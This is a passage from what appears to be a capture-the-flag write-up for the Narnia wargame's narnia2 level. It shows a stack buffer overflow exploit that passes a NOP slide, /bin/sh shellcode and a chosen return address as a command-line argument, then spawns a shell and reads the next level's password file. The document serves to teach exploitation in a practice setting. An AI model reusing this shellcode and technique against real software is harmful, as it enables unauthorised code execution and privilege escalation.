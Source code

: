 ```
0xffffd650:	0x0804821c	0xf7fca000
```

We see our NOP slide represented with all the `0x90909090`'s. Now we just need to take any address in there and use that as the return address. Let's use `0xffffd5e0`.

```sh
narnia2@melinda:/narnia$ ./narnia2 $(python -c 'print("\x90"*115 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xe0\xd5\xff\xff")')
$ whoami
narnia3
$ cat /etc/narnia_pass/narnia3
**********
```
